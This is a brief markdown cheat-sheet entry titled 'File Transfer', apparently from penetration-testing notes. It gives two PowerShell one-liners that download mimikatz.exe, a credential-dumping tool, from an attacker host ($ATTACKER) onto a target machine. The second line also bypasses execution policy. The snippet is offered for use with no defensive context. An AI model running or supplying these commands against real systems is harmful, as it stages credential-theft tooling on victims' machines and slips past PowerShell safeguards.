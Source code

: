 # File Transfer

## Powershell

```text
powershell (New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/mimikatz.exe','mimikatz.exe')
powershell -exec bypass -nop (New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/mimikatz.exe','mimikatz.exe')
```

